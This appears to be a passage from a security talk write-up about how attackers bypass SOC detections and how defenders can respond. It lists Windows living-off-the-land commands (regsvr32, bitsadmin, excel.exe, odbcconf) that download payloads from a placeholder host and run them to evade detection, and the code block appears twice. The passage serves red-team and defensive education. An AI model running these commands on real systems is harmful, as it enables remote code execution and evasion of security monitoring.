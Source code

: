 We’ll talk through how playing defense can raise the bar in the detections of attack patterns (social engineering the SOC analysts to come to a wrong conclusion), we’ll show the ease of bypassing current detections, even for mature companies in 2019, we’ll provide the red team some goodies for their next engagement to try out, and then we’ll talk about how to best defend against the next wave of attacks.

#### Industry Today <a href="#industry-today" id="industry-today"></a>

Crowd-sourced techniques are being published through a record number of information gathering techniques. Our defense today are built on what we see and what the tools detect. Any variation usually circumvents these traditional methods.

```
#odbcconf.exe mimics rundll32.exe 
odbcconf /a {REGSVR c:\test\test.dll}

#regsvr32 bypass that gets caught these days
regsvr32 /s /n /u /i:http://$ip/test.txt scrobj.dll

#using excel to download a file to the TEMP dir
excel.exe http://$ip/doc.xls

#using two tools to separate payload downloading and payload execution to avoid modern detections
bitsadmin /transfer download /download /priority normal http://$ip/test.txt %TEMP%\test.txt && regsvr32.exe /s /u /i:%TEMP%\test.txt scrobj.dll
```

```

odbcconf /a {REGSVR c:\test\test.dll}


regsvr32 /s /n /u /i:http://$ip/test.txt scrobj.dll


excel.exe http://$ip/doc.xls


bitsadmin /transfer download /download /priority normal http://$ip/test.txt %TEMP%\test.txt && regsvr32.exe /s /u /i:%TEMP%\test.txt scrobj.dll
```

#### Problem in Commoditized Attacks <a href="#problem-in-commoditized-attacks" id="problem-in-commoditized-attacks"></a>

Modifications to existing attacks can eventually be identified through threat hunting and, of course, have a higher probability of detection as we use it more often. A similar issue arises if we send a phish to 300 people vs 10 people. Using off the shelf techniques have the same issue, which involves the public research tools being the main focus for detection.

#### No Adversary Emulation Here <a href="#no-adversary-emulation-here" id="no-adversary-emulation-here"></a>
